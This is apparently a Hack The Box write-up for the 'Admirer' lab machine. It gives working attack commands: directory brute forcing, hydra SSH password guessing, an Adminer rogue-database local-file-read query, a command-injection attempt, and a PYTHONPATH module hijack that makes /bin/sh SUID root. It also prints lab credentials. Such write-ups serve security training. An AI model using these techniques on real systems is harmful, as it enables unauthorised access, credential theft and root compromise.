






# Admirer - 10.10.10.187

Robots.txt reveals `/admin-dir/` path in web service. Very thorough web scanning with gobuster reveals FTP credentials in a file `/admin-dir/credentials.txt`, and pulling down those files reveals new path `/utility-scripts`. Again, very thorough scanning with gobuster reveals `/utility-scripts/adminer.php` page, which has a vulnerability that lets you read local files even when connected to a remote MariaDB. Create your own MariaDB and use those creds to log into the adminer page. Run the following SQL query:

```mysql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

Look in the table to get the database creds, which are also reused for `waldo` user to ssh (password: `&<h5b~yK3F#{PaPB&dA}{H>`). Create malicious `shutil.py` file in `/tmp` and run the following for privesc:

```sh
echo 'import os;os.system("chmod u+s /bin/sh");make_archive=lambda x,y,z:None' > /tmp/shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
/bin/sh # euid/egid now root
```

This takes advantage of the `SETENV` option under waldo's sudoers entry.

# nmap

```
❯ sudo rustscan --ulimit 5000 -a 10.10.10.187 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.10.187
Host is up, received user-set (0.015s latency).
Scanned at 2021-08-23 20:19:19 EDT for 8s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQHjxkc8zeXPgI5C7066uFJaB6EjvTGDEwbfl0cwM95npP9G8icv1F/YQgKxqqcGzl+pVaAybRnQxiZkrZHbnJlMzUzNTxxI5cy+7W0dRZN4VH4YjkXFrZRw6dx/5L1wP4qLtdQ0tLHmgzwJZO+111mrAGXMt0G+SCnQ30U7vp95EtIC0gbiGDx0dDVgMeg43+LkzWG+Nj+mQ5KCQBjDLFaZXwCp5Pqfrpf3AmERjoFHIE8Df4QO3lKT9Ov1HWcnfFuqSH/pl5+m83ecQGS1uxAaokNfn9Nkg12dZP1JSk+Tt28VrpOZDKhVvAQhXWONMTyuRJmVg/hnrSfxTwbM9
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNHgxoAB6NHTQnBo+/MqdfMsEet9jVzP94okTOAWWMpWkWkT+X4EEWRzlxZKwb/dnt99LS8WNZkR0P9HQxMcIII=
|   256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqp21lADoWZ+184z0m9zCpORbmmngq+h498H9JVf7kP
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

# 80 - http

Standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.10.187 | tee whatweb.log  
# Summary   : Script, Apache[2.4.25], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], JQuery

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-8808.txt -u http://10.10.10.187    
http://10.10.10.187/assets               (Status: 403) [Size: 277]
http://10.10.10.187/images               (Status: 403) [Size: 277]
http://10.10.10.187/index.php            (Status: 200) [Size: 6051]
http://10.10.10.187/robots.txt           (Status: 200) [Size: 138] 
http://10.10.10.187/server-status        (Status: 403) [Size: 277] 
```

Checking out robots.txt:

```
Disallow: /admin-dir
```

Re-run gobuster on new dir:

```sh
❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-admindir.txt -u http://10.10.10.187/admin-dir
http://10.10.10.187/admin-dir/contacts.txt         (Status: 200) [Size: 350]
```

Checking contacts.txt page:

```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

Browsing to the main page:


Not much here. Checked source, nothing really jumped out at me except that the "contact us" form is a dummy:



Nothing in searchsploit for javascript libs "multiverse" or "poptrox". Moving on.

# 21 - ftp

Searchsploit for "vsftpd":

```
vsftpd 3.0.3 - Remote Denial of Service   | multiple/remote/49719.py
```

Not too useful.

Banner grab and check login:

```sh
❯ nc -nv 10.10.10.187 21
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.187:21.
220 (vsFTPd 3.0.3)
HELP
530 Please login with USER and PASS.
USER anonymous
530 Permission denied.
USER ftp
530 Permission denied.
USER p.wise
530 Permission denied.
```

Also tried logging in using all first names of users from contacts.txt, but all gave "Permission Denied" error.

No easy wins.

# 22 - ssh

We have a list of users from the web site. Maybe we can brute force weak logins?

Searchsploit shows we should be able to enumerate users:

```sh
❯ searchsploit openssh 7 
OpenSSH 2.3 < 7.7 - Username Enumeration               | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)         | linux/remote/45210.py
```

Tried using both scripts to enumerate users, but they give false positives (every user shows up as a valid user)

Going to try running brute force in background while I poke around more.

NOTE: username list is all first names of users.

# UDP?

Checking to see if there is anything on UDP of interest.

```
❯ sudo nmap -n -v -sU -T4 --top-ports=20 --reason --open -oA udp-top20 10.10.10.187

Nmap scan report for 10.10.10.187
Host is up, received echo-reply ttl 63 (0.015s latency).
Not shown: 14 closed ports
Reason: 14 port-unreaches
PORT    STATE         SERVICE    REASON
68/udp  open|filtered dhcpc      no-response
69/udp  open|filtered tftp       no-response
123/udp open|filtered ntp        no-response
137/udp open|filtered netbios-ns no-response
162/udp open|filtered snmptrap   no-response
500/udp open|filtered isakmp     no-response
```

TFTP?

- https://book.hacktricks.xyz/pentesting/69-udp-tftp

```sh
❯ nmap -n -Pn -sU -p69 -sV --script tftp-enum 10.10.10.87
# says port closed
```

NTP?

- https://book.hacktricks.xyz/pentesting/pentesting-ntp

```sh
❯ nmap -sU -sV --script "ntp* and (discovery or vuln) and not (dos or brute)" -p 123 10.10.10.187
# says port closed
```

SNMP? (came up during second UDP scan)

```sh
❯ onesixtyone 10.10.10.187 public -o onesixtyone.log
# no output
```

Doesn't look like anything on UDP.

# Random poking

Original SSH brute force failed. Changing users to actual username portion of email addresses in contacts.txt, with and without periods (e.g. "p.wise" and "pwise") and re-running brute force:

```sh
❯ hydra -V -f -L users.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt ssh://10.10.10.187
```

While that runs, re-running gobuster scan with new wordlist since last one didn't find anything.

```sh
❯ gobuster dir -ezqrkw /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-admindir.txt -u http://10.10.10.187/admin-dir 
http://10.10.10.187/admin-dir/contacts.txt         (Status: 200) [Size: 350]
http://10.10.10.187/admin-dir/credentials.txt      (Status: 200) [Size: 136]
```

Gobuster found a new file! Checking out credentials.txt:

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Now we're getting somewhere! FTP creds are obvious thing to check:

```sh
❯ ftp 10.10.10.187  
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password: %n?4Wz}R$tTF7
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
ftp> binary
ftp> get dump.sql
ftp> get html.tar.gz
```

Grabbed 2 files to see what's inside.

Checking `dump.sql`:

```
-- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: admirerdb
-- ------------------------------------------------------
-- Server version       10.1.41-MariaDB-0+deb9u1
```

So we have MariaDB version 10.1.41 running on the box, using database `admirerdb`. Can't reach the port yet, so possible privesc later?

Checking `html.tar.gz`:

```sh
❯ tar xzf html.tar.gz 
❯ ls           
# assets  dump.sql  html.tar.gz  images  index.php  robots.txt  utility-scripts  w4ld0s_s3cr3t_d1r
```

What is "w4ld0s_s3cr3t_d1r"? Before checking that out, looking at `index.php`:

```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

That's nice! More creds! Also noticing the `utility-scripts` dir... worth checking out:

```sh
❯ cd utility-scripts 
❯ ls
admin_tasks.php  db_admin.php  info.php  phptest.php
```

The `admin_tasks.php` file looks interesting:

```php
    $task = $_REQUEST['task'];
    if($task == '1' || $task == '2' || $task == '3' || $task == '4' ||
       $task == '5' || $task == '6' || $task == '7')
    {
      /*********************************************************************************** 
         Available options:
           1) View system uptime
           2) View logged in users
           3) View crontab (current user only)
           4) Backup passwd file (not working)
           5) Backup shadow file (not working)
           6) Backup web data (not working)
           7) Backup database (not working)

           NOTE: Options 4-7 are currently NOT working because they need root privileges.
                 I'm leaving them in the valid tasks in case I figure out a way
                 to securely run code as root from a PHP page.
      ************************************************************************************/
```

So maybe we can grab the `passwd` and `shadow` files? The php option is disabled, but maybe we can do it with a manual post request.

Also checking out `db_admin.php`:

```php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";
```

More admin creds for the database? Or maybe rabbit hole with different password for same user as before?

`info.php` is the `phpinfo()` function, and `phptest.php` is just a test echo statement.

Checking out phpinfo page:



Highlights:

- Linux Kernel: Linux admirer 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64
- PHP version: PHP Version 7.0.33-0+deb9u7
- User/group: www-data(33)/33
- Document root: /var/www/html
- Disable functions: system, exec, passthru, show_source, highlight_file, popen, proc_open, fopen_with_path, etc.

So not running as root... likely won't be able to grab `shadow` file unless they have a low-priv accessible copy?

Now checking out `w4ld0s_s3cr3t_d1r`. Looks like this is where the `credentials.txt` and `contacts.txt` files are. The `credentials.txt` file has an extra set of creds:

```
[Bank Account]
waldo.11
Ezy]m27}OREc$
```

Juicy :yum:. Browsing to the path `http://10.10.10.187/w4ld0s_s3cr3t_d1r/credentials.txt` doesn't bring up a page though.

What next?

- Try ssh logins with found creds
- Try `admin_tasks.php` to grab more info

Trying `admin_tasks.php` first:

```sh
# try to grab shadow file
❯ curl -s 'http://10.10.10.187/utility-scripts/admin_tasks.php?task=5'
#  Insufficient privileges to perform the selected operation.<br />
```

Bummer.

Looking closer at `admin_tasks.php` source I notice this line, which looks exceptionally vulnerable:

```php
echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
```

They are literally calling `shell_exec` for me! I just have to escape the bash command line. Easy-peasy.

Trying it:

```sh
❯ alias urlencode                                                                             
# urlencode='python3 -c '\''import sys,os,urllib.parse as url;s=" ".join(sys.argv[1:]) if len(sys.argv)>1 else sys.stdin.read().encode();print(url.quote_plus(os.fsencode(s)))'\'

❯ curl -vs "http://10.10.10.187/utility-scripts/admin_tasks.php?task=5$(urlencode ';id #')"
#  Invalid task.
```

Bummer, not so easy-peasy after all... I failed to notice the fact that they check the `$task` variable to be one of the values [1-7].

Now to try brute-forcing more creds:

```sh
❯ cat passwords.txt                                         
Ezy]m27}OREc$
Wh3r3_1s_w4ld0?
]F7jLHw:*G>UPrTo}~A"d6b
w0rdpr3ss01!
%n?4Wz}R$tTF7
fgJr6q#S\W:$P

❯ hydra -V -f -l waldo -P passwords.txt ssh://10.10.10.187
# nope

❯ cat scans/users.txt
p.wise
pwise
r.nayyar
rnayyar
a.bialik
abialik
l.galecki
lgalecki
h.helberg
hhelberg
b.rauch
brauch
waldo
waldo.11
w.cooper
wcooper

❯ hydra -V -f -L scans/users.txt -P loot/passwords.txt ssh://10.10.10.187
# still no
```

Dang.

Back to scanning again.

```sh
❯ gobuster dir -ezqrkw /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-utilityscripts.txt -u http://10.10.10.187/utility-scripts
# nothing we havent seen

# build a bigger wordlist!
❯ cat /usr/share/seclists/Discovery/Web-Content/quickhits.txt /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt /usr/share/wordlists/dirb/common.txt /usr/share/seclists/Discovery/Web-Content/common.txt /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt  | sort -u > /mnt/vm-share/tools/custom/webdir-wordlist.txt

❯ gobuster dir -ezqrkw /mnt/vm-share/tools/custom/webdir-wordlist.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-utilityscripts.txt -u http://10.10.10.187/utility-scripts 
http://10.10.10.187/utility-scripts/adminer.php          (Status: 200) [Size: 4296]
```

A new page!

Browsing to `adminer.php`:



A login portal for mysql? Also see a version of "Adminer 4.6.2". Checking searchsploit for "adminer":

```
Adminer 4.3.1 - Server-Side Request Forgery             | php/webapps/43593.txt
```

Looks like you can send requests to the IP/port of your choosing using a query string like: 

````
?server=TARGET_IP:PORT&username=
````

But only on older versions of Adminer.

Let's see if we can log in. Tried all combos of `waldo`, `waldo.11`, `admin` and `w.cooper` with the passwords we've recovered, but nothing worked.

Googling for `adminer 4.6.2 exploit` turns up:

- https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/

Which in turn points to:

- https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f?gi=2658239beab4

Which in turn points to:

- https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html

So it looks like I can set up my own database to get logged in to the adminer page, and then read local files from the server! The command to run is basically:

```mysql
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

First, we need to configure MariaDB on Kali.

```sh
# check to see if mariadb is installed & active
sudo systemctl status mariadb
# if not installed: https://computingforgeeks.com/how-to-install-mariadb-on-kali-linux/

# reset mariadb root password
# https://tutorialforlinux.com/2020/02/19/kali-linux-2019-reset-mysql-mariadb-5-7-root-password/
sudo systemctl stop mariadb
sudo mysqld_safe --skip-grant-tables --skip-networking &
mysql -u root mysql
```

Then run the following mysql commands:

```mysql
-- change password:
UPDATE mysql.user SET authentication_string=PASSWORD('<password>'), plugin='mysql_native_password' WHERE User='root' AND Host='localhost';
-- if that fails, try this:
ALTER USER 'root'@'localhost' IDENTIFIED BY '<password>';

FLUSH PRIVILEGES;
EXIT;
```

Then kill and restart MariaDB:

```sh
sudo pkill mariadb
sudo pgrep mariadb # make sure it is dead
sudo systemctl start mariadb
mysql -u root -p
```

Now create a new database and user for the attack:

```mysql
create database derp;
create table derp.data (data varchar(1024));
grant all privileges on derp.* TO 'derp'@'localhost' identified by 'herpaderp';
grant all privileges on derp.* TO 'derp'@'%' identified by 'herpaderp';
flush privileges;
exit;
```

This creates a DB called `	derp` with a table called `data` that has a single column called `data` that sotres strings (`varchar`) of length 1024. It also creates a user `derp` with the password `herpaderp` that can locally & remotely access the `derp` DB and modify it. Now make the MySQL DB accessible remotely:

- https://webdock.io/en/docs/how-guides/how-enable-remote-access-your-mariadbmysql-database

```sh
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 0.0.0.0
sudo systemctl start mariadb 
```

Then enter your IP, username (`derp`), password (`herpaderp`), and database name (`derp`) into the adminer login form.



Next click on the "SQL command" link on the left side, and enter the following:

```mysql
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

Then run. But we get an error?

```
Error in query (2000): open_basedir restriction in effect. Unable to open file
```

Apparently the php settings have been locked down to prevent reading outside the web directory.

- https://www.php.net/manual/en/ini.core.php#ini.open-basedir

Good news is, we still have access to the web directory, and the `index.php` file should have the database credentials. Change the SQL command to the following:

```mysql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

And it works! Navigate to the `derp` database, click on the `data` table link, then click on `Select data` to view results.



So we have a new password for waldo: `&<h5b~yK3F#{PaPB&dA}{H>`. Add that to the list of passwords. Might as well check if that works for ssh while we see if we can use the creds for code execution in the database.

```sh
❯ hydra -V -f -L scans/users.txt -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh://10.10.10.187
# [22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
# SUCCESS!
```

How convenient! SSH in...

# PrivEsc

Start with basic enumeration:

```sh
id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)

uname -a
Linux admirer 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64 GNU/Linux

hostname
admirer

ip a
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:9c:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.187/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9c5b/64 scope global mngtmpaddr dynamic 
       valid_lft 86338sec preferred_lft 14338sec
    inet6 fe80::250:56ff:feb9:9c5b/64 scope link 
       valid_lft forever preferred_lft forever

sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

We can run a script as root! And it looks custom. Not sure what `SETENV` means? Checking `man sudoers`:

```
SETENV and NOSETENV

       These tags override the value of the setenv option on a per-command basis.
       Note that if SETENV has been set for a command, the user may disable the 
       env_reset option from the command line via the -E option.  Additionally, 
       environment variables set on the command line are not subject to the restrictions
       imposed by env_check, env_delete, or env_keep. As such, only trusted users
       should be allowed to set variables in this manner. If the command matched
       is ALL, the SETENV tag is implied for that command; this default may be 
       overridden by use of the NOSETENV tag.
```

I like the sound of "only trusted users should be allowed to set variables in this manner." So let's examine the script to see how we can abuse the environment variables.

```bash
cat /opt/scripts/admin_tasks.sh

#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

Looks fairly secure... all binaries use full paths, so can't modify `PATH` environment variable.

- https://developer.apple.com/library/archive/documentation/OpenSource/Conceptual/ShellScripting/ShellScriptSecurity/ShellScriptSecurity.html

Under the backup_web function there is another interesting script: `/opt/scripts/backup.py`. Check that out:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Searched google for "python environment variables exploit" and found this:

- https://www.elttam.com/blog/env/

Which suggests changing the [`PYTHONHOME`](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONHOME) or [`PYTHONPATH`](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH) environment variables. `PYTHONHOME` looks like it changes where the python libraries are found, while `PYTHONPATH` changes where python looks for module files. Since this script imports a module (`shutil`), I think we can exploit it by pointing the `PYTHONPATH` to a directory with a malicious `shutil.py` file in it.

```sh
# test run
cd /tmp
echo 'import os;os.system("id > /tmp/pwned")' > shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
```

And that shows `uid=0(root) gid=0(root) groups=0(root)` in the new file `/tmp/pwned`! The script crashed because it couldn't import `make_archive`, so we'll clean that up for the full exploit:

```sh
echo 'import os;os.system("chmod u+s /bin/sh");make_archive=lambda x,y,z:None' > /tmp/shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
/bin/sh
# id
uid=1000(waldo) gid=1000(waldo) euid=0(root) egid=0(root) groups=0(root),1000(waldo),1001(admins)
```

And we have root permissions!




---

To cleanup MariaDB after this machine:

```sh
mysql -u root -p
```

Then run the following MySQL:

```mysql
delete from mysql.user where user = 'derp';
drop database derp;
show databases; # confirm derp database gone
select host, user, password from mysql.user; # confirm derp user gone
exit;
```

Now run the following:

```sh
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 127.0.0.1
sudo systemctl start mariadb 
```